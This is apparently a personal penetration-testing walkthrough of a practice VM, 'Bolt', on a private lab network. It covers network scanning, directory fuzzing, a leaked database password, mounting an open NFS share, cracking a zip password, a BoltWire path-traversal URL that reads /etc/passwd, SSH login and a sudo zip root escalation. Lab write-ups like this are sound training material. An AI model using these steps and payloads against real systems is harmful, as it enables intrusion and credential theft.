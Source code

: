 ```
sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:b3:e7:b5, IPv4: 192.168.32.131
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.32.1    00:50:56:c0:00:08       (Unknown)
192.168.32.2    00:50:56:fa:26:d0       (Unknown)
192.168.32.134  00:0c:29:32:ff:7f       (Unknown)
192.168.32.254  00:50:56:fd:72:38       (Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.864 seconds (137.34 hosts/sec). 4 responded

```

`192.168.32.134  00:0c:29:32:ff:7f       (Unknown)`

**Target** - 192.168.32.134


```
nmap -A -T4 -p- 192.168.32.134
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 12:22 EDT
Nmap scan report for 192.168.32.134
Host is up (0.00023s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35763/tcp6  mountd
|   100005  1,2,3      58657/udp   mountd
|   100005  1,2,3      59401/tcp   mountd
|   100005  1,2,3      59713/udp6  mountd
|   100021  1,3,4      34260/udp6  nlockmgr
|   100021  1,3,4      36071/tcp   nlockmgr
|   100021  1,3,4      43039/tcp6  nlockmgr
|   100021  1,3,4      43885/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
|_http-server-header: Apache/2.4.38 (Debian)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
34937/tcp open  mountd   1-3 (RPC #100005)
36071/tcp open  nlockmgr 1-4 (RPC #100021)
44839/tcp open  mountd   1-3 (RPC #100005)
59401/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 00:0C:29:32:FF:7F (VMware)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.23 ms 192.168.32.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds

```


#web-enumeration
# Website Enumeration

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt:FUZZ -u http://192.168.32.134:80/FUZZ -s`
```

Results
public
src
extensions
app
vendor
```

==Information disclosure==
![[Pasted image 20250510173357.png]]

**Interesting Find**
`http://192.168.32.134/app/config/`
![[Pasted image 20250510180044.png]]
`config.yml`
```
database:
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java

```


`ffuf -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt:FUZZ -u http://192.168.32.134:8080/FUZZ -s`
```
Results:
dev
```

![[Pasted image 20250510173436.png]]

# NFS server

#showmnount
```
showmount -e 192.168.32.134
Export list for 192.168.32.134:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```

`sudo mount -t nfs 192.168.32.134:/srv/nfs /mnt/dev`
![[Pasted image 20250510173737.png]]

![[Pasted image 20250510173812.png]]

# Password Cracking
#john
#zip2john
Let's use ==john== to crack the folder
`zip2john save.zip > ~/Desktop/saveziphash`

`john saveziphash`
```
john saveziphash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
java101          (save.zip)     
1g 0:00:00:01 DONE 3/3 (2025-05-10 12:41) 0.5208g/s 17469Kp/s 17469Kc/s 17469KC/s bbsex39..javst15
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Let's unzip the folder with the password ==java101==. 
![[Pasted image 20250510174344.png]]

todo.txt
```
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp

```


id_rsa can be used within ssh
Will re-visit this later


Searching the web for **Bolt CVEs**, I found **BoltWire 6.03 - Local File Inclusion**. Let's try it. I'll create a member account on the bolt login page and then use this URL for LFI
`/index.php?p=action.search&action=../../../../../../../etc/passwd`

It works!
![[Pasted image 20250510175528.png]]

This confirms the user ==jeanpaul==! Let's use the id_rsa and try to log in to jeanpaul
`ssh -i id_rsa jeanpaul@192.168.32.134`
![[Pasted image 20250510175655.png]]
Let's change the id_rsa permissions to 600. Then we'll try the password ==I_love_java==

We're in!
![[Pasted image 20250510180150.png]]
![[Pasted image 20250510180208.png]]
- We can run the zip feature without admin password

After heading over to https://gtfobins.github.io/gtfobins/zip/
![[Pasted image 20250510180730.png]]

![[Pasted image 20250510180746.png]]

We are now rooted!

